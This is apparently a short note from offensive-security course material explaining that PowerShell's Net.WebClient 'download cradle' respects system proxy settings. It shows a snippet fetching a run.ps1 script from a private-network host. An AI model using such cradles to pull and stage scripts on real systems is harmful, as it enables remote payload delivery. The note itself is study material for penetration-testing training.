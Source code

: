 ## Why is proxy-awareness needed
We have primarily used the _Net.WebClient_ download cradle.

We can validate this by running the following code in a powershell with and without a proxy:
```Powershell
$wc = new-object system.net.WebClient
$wc.DownloadString("http://192.168.49.150/run.ps1")
```

Without Proxy:

![wo_proxy](../../../Screenshots/wo_proxy.png)

With Proxy:

![w_proxy](../../../Screenshots/w_proxy.png)

We can see that the system.net.webclient is aware of a proxy in use.


